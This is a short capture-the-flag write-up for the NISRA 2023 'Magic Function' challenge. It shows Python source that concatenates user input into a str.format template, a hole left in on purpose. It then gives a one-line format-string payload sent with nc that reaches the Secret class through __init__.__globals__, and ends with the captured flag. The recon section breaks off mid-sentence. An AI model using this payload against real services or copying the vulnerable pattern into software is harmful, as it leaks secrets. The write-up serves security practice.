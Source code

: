 ```yaml
---
title: NISRA 2023 Enlightened - Magic Function
tags: [NISRA, CTF, Misc]

category: "Security/Practice/NISRA/Misc"
---
```


# NISRA 2023 Enlightened - Magic Function

## Background
[Magic Function of Python](https://hacktricks.boitatech.com.br/misc/basic-python/magic-methods)

## Source Code
```python=
class Test():
	def __init__(self, email='test@nisra.net'):
		self.info = 'test'
		self.email = email

class Secret():
	flag = open("./NISRA-Enlightened-2023/flag.txt", "r").read().strip()


if __name__ == '__main__':
	email = input('Your email: ')

	if email:
		test = Test(email)
	else:
		test = Test()

	msg = ('this is for {test.info}, please contact ' + email + '.').format(test=test)

	print(msg)
```


## Recon
這一題真的很有趣，但也是算通靈的奇淫怪招，仔細看了一下直覺應該是跟format string有關係，比賽的時候的確有想到，但我當時想的payload有點偏掉了，當時的payload是: `{test.email}.format(test=Test(Secret().flag))`，也就是先傳入Secret().flag給Test這個class，然後再利用format傳入給

## Exploit
```bash
$ echo "{test.__init__.__globals__[Secret].flag}" | nc chall2.nisra.net 43001
Your email: this is for test, please contact NISRA{Ma9ic_pY3h0n_!!???}.
```

Flag: `NISRA{Ma9ic_pY3h0n_!!???}`